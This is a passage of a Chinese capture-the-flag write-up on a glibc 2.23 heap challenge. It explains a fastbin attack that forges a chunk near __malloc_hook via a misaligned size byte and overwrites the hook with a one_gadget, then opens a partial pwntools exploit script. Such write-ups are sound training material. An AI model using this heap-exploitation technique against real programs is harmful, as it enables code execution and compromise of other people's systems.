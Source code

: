 ![](https://img-blog.csdnimg.cn/0481579d7899474cbe33733f3aa828e4.png)

获取到了这里的地址，我们就可以获取到system函数和__free_hook的地址。本题环境为2.23，无tcache的影响，有通过fastbin attack修改__malloc_hook的可行性。

这是一开始__malloc_hook附近的情况：
![](https://img-blog.csdnimg.cn/b90efebb8ce54bd7ae8349c3569acd6f.png)
要想在__malloc_hook附近分配chunk，首先需要通过检查：
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
  {
    errstr = "malloc(): memory corruption (fast)";
  errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
  }
```
下面是fastbin_index的宏定义：
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
我们可以通过地址错位达到目的：

|address|+0|+1|+2|+3|+4|+5|+6|+7
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
|0x7fc36e4ddaf0|60|c2|4d|6e|c3|<font color=red>7f</font>|<font color=red>00</font>|<font color=red>00</font>|
|0x7fc36e4ddaf8|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|<font color=red>00</font>|00|00|00|
|0x7fc36e4ddb00|a0|ee|19|6e|c3|7f|00|00|

红色部分刚好能通过这个检查，需要使fd变为__malloc_hook-0x23才行，其对应的fastbin应该是存放0x70大小chunk的fastbin，因此我们要事先分配好0x70大小的chunk然后释放它，修改fd指针后再申请回来即可。
拿到__malloc_hook处的chunk后向__malloc_hook写入one_gadget即可，尝试了4个只有一个能成功，而且最后一次分配chunk还必须在interactive之后手动分配，自动分配打远程会卡住......

exp:
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

io = process('./pwn')
# io = remote('node4.buuoj.cn', 29330)

in_use = [False] * 0x10		# in_use array
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

def allocate(size):
	io.sendlineafter(b'Command: ', b'1')
	io.sendlineafter(b'Size: ', str(size).encode())
	io.recvuntil(b'Allocate Index ')
	allocated_index = int(io.recvuntil('\n', drop=True), 10)
	in_use[allocated_index] = True
	
def fill(index, size, content):
	io.sendlineafter(b'Command: ', b'2')
	io.sendlineafter(b'Index: ', str(index).encode())
	io.sendlineafter(b'Size: ', str(size).encode())
	io.sendafter(b'Content: ', content)
	
def release(index):
	io.sendlineafter(b'Command: ', b'3')
```